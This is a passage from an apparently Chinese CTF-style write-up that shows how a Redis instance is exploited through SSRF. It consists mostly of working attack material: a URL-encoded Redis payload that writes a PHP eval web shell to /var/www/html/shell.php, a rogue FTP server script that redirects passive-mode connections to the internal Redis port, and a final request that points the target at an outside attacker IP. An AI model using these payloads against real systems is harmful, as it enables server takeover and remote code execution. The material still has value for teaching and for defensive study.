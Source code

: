     if __name__=="__main__":
        for x in cmd:
            payload += urllib.quote(redis_format(x))
        print payload
    

童谣得到的 Payload 只选取 `_` 后面的部分：

    
    
    %2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%22whoami%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
    

然后还是在攻击机上运行 evil_ftp.py 启动一个伪 FTP 服务：

    
    
    import socket
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 
    s.bind(('0.0.0.0', 23))
    s.listen(1)
    conn, addr = s.accept()
    conn.send(b'220 welcome\n')
    #Service ready for new user.
    #Client send anonymous username
    #USER anonymous
    conn.send(b'331 Please specify the password.\n')
    #User name okay, need password.
    #Client send anonymous password.
    #PASS anonymous
    conn.send(b'230 Login successful.\n')
    #User logged in, proceed. Logged out if appropriate.
    #TYPE I
    conn.send(b'200 Switching to Binary mode.\n')
    #Size /
    conn.send(b'550 Could not get the file size.\n')
    #EPSV (1)
    conn.send(b'150 ok\n')
    #PASV
    conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,6379)\n') #STOR / (2)
    conn.send(b'150 Permission denied.\n')
    #QUIT
    conn.send(b'221 Goodbye.\n')
    conn.close()
    

最后直接构造请求发送 Payload：

    
    
    /?file=ftp://aaa@47.101.57.72:23/123&data=%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2435%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5B%22whoami%22%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A
    